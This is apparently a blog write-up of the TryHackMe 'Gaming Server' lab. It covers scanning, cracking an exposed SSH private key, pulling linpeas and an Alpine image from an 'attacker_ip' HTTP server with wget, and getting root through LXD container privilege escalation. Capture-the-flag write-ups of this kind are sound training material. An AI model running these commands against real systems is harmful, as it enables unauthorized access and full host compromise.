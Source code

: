 ```yaml
---
title: Try Hack Me - Gaming Server
date: 2021-01-01 16:32 +0300
categories: [Try Hack Me]
tags: [Linux, Lxd privilege escalation]     # TAG names should always be lowercase
---
```


# Welcome

Hey there! Glad to see you.

In this box you will learn about:
- LXC or Linux Container

# Nmap

Start scanning!

<pre class="highlighter-rouge highlight">
Nmap scan report for 10.10.206.197
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/25%OT=22%CT=1%CU=34225%PV=Y%DS=2%DC=I%G=Y%TM=5FE63E
OS:D0%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=102%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%
OS:O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2
OS:=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.87 seconds
</pre>

Let's check the web page.

# Gobuster

<pre>
gobuster dir -u http://10.10.206.197/ -w /opt/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.206.197/
[+] Threads:        10
[+] Wordlist:       /opt/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
			Starting gobuster
===============================================================
/uploads (Status: 301)
/secret (Status: 301)
</pre>

I found hidden directory <code class="language-plaintext highlighter-rouge">/uploads</code> and <code class="language-plaintext highlighter-rouge">/secret</code>

# Web Page

If we open the hidden directory <code class="language-plaintext highlighter-rouge">/uploads</code>, we will see

<img src="/assets/img/gamingserver_img/uploads.jpg">

The file name <code class="language-plaintext highlighter-rouge">dict.lst</code> soundes like we need to brute force something.
So I download it.

If we open the hidden directory <code class="language-plaintext highlighter-rouge">/secret</code>, we will see

<img src="/assets/img/gamingserver_img/secret.jpg">

After openning <code class="language-plaintext highlighter-rouge">secretKey</code> file

<img src="/assets/img/gamingserver_img/secretkey.jpg">

It is RSA private key. So download and crack it!

# John The Ripper

This link helped me with John and cracking password with RSA private key <a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a>

For brute forcing use <code class="language-plaintext highlighter-rouge">dict.lst</code> that we found before.

# Connect to SSH
We got the password after John. It's time to connect to SSH.

Change permission 
<pre> chmod 600 id_rsa </pre>
Connect 
<pre>ssh -i id_rsa john@10.10.206.197</pre>

Now you can read User.txt

<img src="/assets/img/gamingserver_img/userflag.jpg">

# Privilage Escalation
Anh here i got stuck.. I tried to find <code class="language-plaintext highlighter-rouge">suid</code> files, but it wasn't the solution. And I found <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite">Linpeas</a>. It's really amazing thing! These tools search for possible local privilege escalation paths that you could exploit and print them to you with nice colors so you can recognize the misconfigurations easily. 

We must run this script on victim machine. And our actions are:

Create a python server in the folder where we have our <code class="language-plaintext highlighter-rouge">Linpeas</code> script stored

<pre>*ATTACKER MACHINE* sudo python3 -m http.server</pre>

Download the script on the victim machine

<pre>*VICTIM MACHINE* wget attacker_ip:8000/linpeas.sh</pre>

Get the access permissions

<pre>
chmod +x linpeas.sh
./linpeas.sh</pre>

You know...The output was huge! It was so lot of details... I'll show you a part

<img src="/assets/img/gamingserver_img/linpeas.jpg">

I tried to something with sudo and I know that it doesn't help. So i googled <code class="language-plaintext highlighter-rouge">lxd</code>. And I found an <a href="https://www.hackingarticles.in/lxd-privilege-escalation/">article</a> which showed how to get root with <code class="language-plaintext highlighter-rouge">lxd</code>.

Download the build alpine from GitHub
<pre>
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine</pre>

After that we will get the tar.gz file which we must send to victim machine like we did it with <code class="language-plaintext highlighter-rouge">linpeas.sh</code>

Create a python server 

<pre>*ATTACKER MACHINE* sudo python3 -m http.server</pre>

I moved to <code class="language-plaintext highlighter-rouge">/tmp</code> folder and download the script on the victim machine.

<pre>cd /tmp
*VICTIM MACHINE* wget attacker_ip:8000/alpine-v3.12-x86_64-20201225_2324.tar.gz</pre>

And typed/copied following commands

<pre>
lxc image import ./alpine-v3.12-x86_64-20201225_2324.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
</pre>

Now you are root!

<pre>
mnt/root/root
ls
root.txt
cat root.txt
</pre>

<img src="/assets/img/gamingserver_img/root_flag.jpg">

Your also can get root using the <a href="https://www.exploit-db.com/exploits/46978">report</a> from <code class="language-plaintext highlighter-rouge">Exploit Database</code>

Step 1: Download build-alpine

<pre>wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine</pre>

Step 2: Build alpine (as root user)

<pre>bash build-alpine</pre>

Step 3: Create an <code class="language-plaintext highlighter-rouge">.sh</code> file with code on <a href="https://www.exploit-db.com/exploits/46978">Exploit Database</a> website. Move <code class="language-plaintext highlighter-rouge">tar.gz</code> and <code class="language-plaintext highlighter-rouge">exploit.sh</code> files to victim machine. Run this script and you will get root.

Create a python server 

<pre>*ATTACKER MACHINE* sudo python3 -m http.server</pre>

I moved to <code class="language-plaintext highlighter-rouge">/tmp</code> folder and download the script on the victim machine.

<pre>
*VICTIM MACHINE*
cd /tmp 
wget attacker_ip:8000/alpine-v3.12-x86_64-20201225_2324.tar.gz
wget attacker_ip:8000/exploit.sh
chmod +x exploit.sh
./exploit.sh -f alpine-v3.12-x86_64-20201225_2324.tar.gz
</pre>

Step 4: Once inside the container, navigate to <code class="language-plaintext highlighter-rouge">/mnt/root</code> to see all resources from the host machine

# Userful for me references

<div><a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a></div>
<div><a href="https://docs.rackspace.com/support/how-to/logging-in-with-an-ssh-private-key-on-linuxmac/">Log in with an SSH private key on Linux and macOS</a></div>
<div><a href="https://www.hackingarticles.in/lxd-privilege-escalation/">Lxd Privilege Escalation</a></div>
<div><a href="https://www.exploit-db.com/exploits/46978">Ubuntu 18.04 - 'lxd' Privilege Escalation </a></div>
